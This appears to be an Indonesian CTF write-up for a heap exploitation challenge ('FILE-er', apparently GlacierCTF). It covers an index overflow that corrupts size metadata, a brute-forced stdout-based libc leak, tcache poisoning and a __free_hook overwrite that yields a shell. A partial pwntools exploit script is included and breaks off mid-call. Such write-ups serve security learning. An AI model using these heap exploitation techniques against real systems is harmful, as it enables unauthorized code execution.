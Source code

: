 binary no relro, no canary tapi pie enabled
terdapat bug overflow dimana saat menambahkan index 16 akan mengoverwrite value size index 0 & 1 ke value yg lebih besar

dari sini kita bisa edit metadata agar berukuran lebih besar untuk leak main_arena atau nge-create fake chunk buat tcache poisoning

leak bisa didapat dengan mengoverwrite _IO_2_1stdout dari leak address main_arena, oleh karena itu dibutuhkan setidaknya brute force dngan perbandingan 1/16

setelah didapatkan leak, kalkulasi libc base address, overwrite __free_hook ke system dngan uaf/tcache poisoning lewat bug overflow, panggil fungsi delete untuk mendapatkan shell 
referensi :
- https://github.com/ENOFLAG/writeups/blob/master/X-MASctf2019/Blindfolded.md
- https://vigneshsrao.github.io/posts/babytcache/

```python
from pwn import *

elf  = ELF("./FILE-er", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

def add(idx, sz, data):
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'>',b'%d' % idx)
    p.sendlineafter(b'>',b'%d' % sz)
    p.sendafter(b'> ',b'%s' % data)

def edit(idx, data):
    p.sendlineafter(b'>', b'2')
    p.sendlineafter(b'>',b'%d' % idx)
    p.sendafter(b'> ',b'%s' % data)

def delete(idx):
    p.sendlineafter(b'>', b'3')
    p.sendlineafter(b'>',b'%d' % idx)

# brute force 1/16 to get a perfect libc address leak from overwriting _IO_2_1_stdout_
iter=0
while True:
    with context.local(log_level = 'error'):
        # p = elf.process()
        p = remote('172.17.0.2', 1337)
        # p = remote('pwn.glacierctf.com', 13376)
        try:
            # padding
            add(0, 0x70, b'padding')
            # this will overwrite size of index 0 & 1 (size index is 32 dword) into pointer heap of index 16
            # then ? obviously will overflow because the size/value of heap address is large than 0x18
            add(0, 0x18, b'A'*8)
            add(1, 0x18, b'A'*8)
            add(16, 0xffffffff+1, b'')
            add(15, 0x18, b'B'*8)

            # this will be overwritten
            add(3, 0x408, b'X'*8)
            add(4, 0x18, b'X'*8)
            # padding
            add(5, 0x18, b'X'*8)
            add(6, 0x18, b'X'*8)

            # this will overwrite index 16 then index 3 size
            edit(1, b'O'*0x18 +
                    # chunk 16 metadata
```